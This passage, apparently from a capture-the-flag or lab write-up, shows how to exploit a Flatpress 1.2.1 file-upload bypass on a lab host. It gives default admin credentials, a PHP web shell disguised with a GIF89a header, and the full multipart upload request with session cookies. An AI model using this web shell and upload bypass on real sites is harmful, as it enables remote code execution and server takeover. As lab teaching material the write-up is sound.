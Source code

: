 ![](/assets/img/Pasted-image-20250221121419.png)

Looking for exploits on this CMS, we identified the following [Flatpress 1.2.1 - File upload bypass to RCE](https://github.com/flatpressblog/flatpress/issues/152)

Now, the important thing here is that the exploit requires authentication, the required credentials for this one are `admin:password`, the exploit is basically follow this 3 steps:
1) Login to the application
2) Navigate to the uploader section of the application.
3) Create a PHP file using the following payload.
```bash
GIF89a;
<?php system($_REQUEST["cmd"]); ?>
```

This way we will be able to upload the file using this HTTP request:
```bash
POST /admin.php?p=uploader&action=default HTTP/1.1
Host: 10.0.160.225
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------104014062942592053731161315153
Content-Length: 1831
Origin: http://10.0.160.225
DNT: 1
Connection: keep-alive
Referer: http://10.0.160.225/admin.php?p=uploader
Cookie: fpsess_fp-48ab49ba=147ei7sk0bbg5v2e3sq9kcvh3f; fpuser_fp-48ab49ba=admin; fppass_fp-48ab49ba=%242y%2410%2470xOuqovCQOI4BgCgjl5L.UBCur.JNrqAQGWfST9%2FI8C3c7OzHy0a
Upgrade-Insecure-Requests: 1

-----------------------------104014062942592053731161315153
Content-Disposition: form-data; name="_wpnonce"

f6cd998e05
-----------------------------104014062942592053731161315153
Content-Disposition: form-data; name="_wp_http_referer"

/admin.php?p=uploader
-----------------------------104014062942592053731161315153
Content-Disposition: form-data; name="upload[]"; filename="exploit.php"
Content-Type: application/x-php

GIF89a;
<?php system($_REQUEST["cmd"]); ?>

-----------------------------104014062942592053731161315153
Content-Disposition: form-data; name="upload[]"; filename=""
Content-Type: application/octet-stream


-----------------------------104014062942592053731161315153
Content-Disposition: form-data; name="upload[]"; filename=""
Content-Type: application/octet-stream


-----------------------------104014062942592053731161315153
Content-Disposition: form-data; name="upload[]"; filename=""
Content-Type: application/octet-stream


-----------------------------104014062942592053731161315153
```